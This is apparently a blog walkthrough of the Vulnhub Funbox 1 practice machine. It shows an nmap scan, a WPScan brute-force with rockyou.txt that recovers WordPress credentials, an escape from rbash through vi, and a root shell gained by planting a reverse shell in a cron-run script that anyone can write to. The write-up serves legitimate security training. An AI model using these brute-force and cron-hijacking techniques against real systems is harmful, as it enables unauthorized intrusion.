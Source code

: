 ```yaml
---
layout: post
cover:  assets/images/fun-box-1/cover.png
title: Vulnhub Funbox 1 Walkthrough 
date: 2023-11-12
categories: Funbox-Series
author: raju
featured: true
---
```


I personally found this box quite interesting. To gain the initial foothold, I ran WPScan with a password list, using `rockyou.txt` which led to the discovery of two valid user credentials for the web console. One of these users also had SSH access to the box. However, obtaining the shell wasn't enough; there was an additional step to escape the rbash shell. For root access, post-enumeration was crucial, as there were multiple ways to achieve it. Some methods were relatively straightforward, while others required additional research. 

# Information Gathering

First, I want to start with Nmap to identify the open ports and their associated services. If possible, Nmap will also provide information about the service versions and the operating system. This is a good starting point when working with any assets.


```bash
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) ; nmap -p$ports -sC -sV -oN nmap/service_scan $IP

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d2:f6:53:1b:5a:49:7d:74:8d:44:f5:46:e3:93:29:d3 (RSA)
|   256 a6:83:6f:1b:9c:da:b4:41:8c:29:f4:ef:33:4b:20:e0 (ECDSA)
|_  256 a6:5b:80:03:50:19:91:66:b6:c3:98:b8:c4:4f:5c:bd (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://funbox.fritz.box/
| http-robots.txt: 1 disallowed entry 
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

From the Nmap results, we found that four ports are publicly accessible: 21 (FTP), 22 (SSH), 80 (HTTP), and 33060 (MySQL). The SSH and HTTP banners confirm that the operating system is Ubuntu. Additionally, the HTTP service redirects to a domain named 'funbox.fritz.box'. Let's add this to our hosts file first.

```bash
echo "10.10.10.5 funbox.fritz.box" | sudo tee -a /etc/hosts
```

Since we don't have any valid credentials, we couldn't access the SSH or MySQL servers. Therefore, I would like to proceed through the web server.

**Manual Inspection**

![](/assets/images/fun-box-1/1.png)

This is a WordPress application, and I haven't discovered any interactive elements on the web server, such as input boxes or dynamic pagination, except for the WordPress technology itself. Nmap also revealed a 'Disallow' entry in the robots.txt file; let's check it out.

![](/assets/images/fun-box-1/2.png)

The URL only displays a message: 'No secrets here. Try harder!' Since this is a WordPress web application, I plan to run WPScan. However, considering the lack of substantial content during enumeration, generating a word-list based on this application seems unlikely to be fruitful. Instead, I'll opt to run the rockyou.txt file for password brute-force attacks.

```bash
wpscan --url http://funbox.fritz.box/ --enumerate --passwords /usr/share/wordlists/rockyou.txt

[+] URL: http://funbox.fritz.box/ [10.10.10.5]
[+] Started: Sat Nov 11 23:33:29 2023

Interesting Finding(s):

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 
[+] WordPress theme in use: twentyseventeen
 
[i] No plugins Found.

[i] No Timthumbs Found.

[i] No Config Backups Found.

[i] No DB Exports Found.

[i] No Medias Found.

[i] User(s) Identified:

[+] admin
 
[+] joe

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345                                                                                                                                        
[SUCCESS] - admin / iubire                                                                                                                                     
Trying admin / iubire Time: 00:00:09 <                                                                                 > (670 / 28689453)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

WPScan revealed two valid user credential combinations. I tested both sets of credentials in the web console, and both were successful. Before proceeding with further enumeration on the web console, I plan to verify these credentials for both FTP and SSH access.

![](/assets/images/fun-box-1/3.png)

During the login attempt for FTP, the credentials for the 'joe' user worked successfully. However, the credentials for the 'admin' user did not grant access to the FTP service. Using the 'joe' user account, we discovered an mbox file and downloaded it to our local machine.

![](/assets/images/fun-box-1/4.png)

The mbox file appears to be a mail file, and within it, we discovered some interesting messages. One message mentioned 'funny' as a possible username, and there was also a reference to a backup script, suggesting the existence of a script for backing up certain items. Additionally, there's a warning message for Joe to change his password, with '12345' being recommended. However, we already know Joe's password. Let's attempt to SSH using the credentials for both Joe and Admin.

![](/assets/images/fun-box-1/5.png)

**Creds**

<aside>
💡 joe:12345
admin:iubire

</aside>

# Initial Foothold

The SSH login attempt with the 'admin' user was unsuccessful; however, the credentials for 'joe' were valid, providing me with the initial foothold for this box.

![](/assets/images/fun-box-1/6.png)

# Post Enumeration & Privilege Escalation

After gaining the initial foothold, I discovered that the default shell is rbash, the restricted bash shell for Joe. To progress further, we need to find a way to escape this restricted shell.

![](/assets/images/fun-box-1/7.png)

Numerous techniques exist for escaping a jailed shell, but I opted for the vi editor technique. I executed the following commands, successfully escaping the restricted rbash shell.

```bash
vi
:set shell=/bin/bash
:shell
```

After successfully escaping the rbash, I searched for the backup script and located a file owned by the 'funny' user. Interestingly, the file is readable, writable, and executable for everyone. Although I checked for a cronjob for the 'joe' user and found none, since the file is owned by the 'funny' user, I assume it is executed by the cron job of the 'funny' user.

![](/assets/images/fun-box-1/8.png)

To confirm the existence of the cron job, I transferred pspy to the victim machine and executed it to monitor all input and output operations. After a few moments, I observed a cron job running periodically, executed by both the root and funny users.

![](/assets/images/fun-box-1/9.png)

Since I have write access, I modified the file and added a reverse shell code. I then started a listener on my Kali machine to capture the reverse shell. 

![](/assets/images/fun-box-1/10.png)

After few moment i got the reverse shell as user funny. 

![](/assets/images/fun-box-1/11.png)

Both the `root` and `funny` users have a cronjob to run this file, providing us with a reverse shell if executed. At this point, by removing the cronjob for `funny`, only the `root` user will execute the file, allowing us to gain root access. So, I went ahead and removed the cronjob for `funny`.

![](/assets/images/fun-box-1/12.png)

i Just modify the file once again to change the port and start a new listener for root. Within a few moment i got the reverse connection as root.

![](/assets/images/fun-box-1/13.png)

# Bonus

While enumerating as the 'funny' user, I noticed that this user is also a member of the 'lxd' group. This discovery is quite interesting. After some research, I found a publicly available privilege escalation exploit for this scenario. We could proceed with it.

![](/assets/images/fun-box-1/14.png)

I searched in the searchsploit database and found one result with a Bash script. However, there are some prerequisites for this attack to work—specifically, the `lxd` and `lxc` components need to be installed on the machine.

![](/assets/images/fun-box-1/15.png)

The binaries are available inside the machine.

![](/assets/images/fun-box-1/16.png)

Although both binaries are present inside the box, I've decided not to pursue them since I already have root access. Skipping the 'funny' user's part, with a bit of luck, we might catch the root reverse-shell on the first attempt. There are multiple ways to achieve root on this machine. I thoroughly enjoyed working on this machine.